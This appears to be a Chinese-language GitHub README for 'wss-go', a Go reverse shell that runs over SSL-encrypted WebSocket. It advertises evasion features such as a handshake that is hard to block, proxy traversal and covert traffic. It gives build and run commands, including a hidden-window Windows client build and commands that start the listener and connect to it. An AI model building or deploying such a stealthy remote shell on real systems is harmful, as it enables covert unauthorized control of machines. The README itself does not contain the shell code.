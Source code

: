 # wss-go：使用 Golang 编写的 Websocket with SSL 的反向 Shell

一款使用 Golang 编写的 Websocket with SSL 的反向 Shell。

适用于Windows, Linux, MacOS。

## 文档

- [English](https://github.com/piaolin/wss-go/blob/main/README.md)
- [中文文档](https://github.com/piaolin/wss-go/blob/main/README_ZH.md)

## 原理

使用 Websocket 进行通信，并使用 SSL 证书进行加密。

## 特性

- 握手阶段采用 HTTP 协议，因此握手时不容易屏蔽，能通过各种 HTTP 代理服务器。
- 使用 SSL 证书进行加密。
- 数据格式比较轻量，性能开销小，通信高效隐蔽。

## 使用方法

### Windows

```shell
go env -w GOOS=windows
go build -o wssServer server/server.go
go build -o wssClient -ldflags -H=windowsgui -ldflags "-s -w" client/client.go
```

### 截屏

![](https://i.loli.net/2021/08/29/gHhY4RaGOcDAdnp.png)
![](https://i.loli.net/2021/08/29/YQVOlgW28pmqsto.png)

### MacOS & Linux

```shell
go env -w GOOS=darwin/linux
go build -o wssServer server/server.go
go build -o wssClient client/client.go
./wssServer -addr 0.0.0.0:443
./wssClient -addr 127.0.0.1:443
```

### 截屏

![](https://i.loli.net/2021/08/29/gExYGVKBzpte1Pv.png)

## 待办

- RSA & AES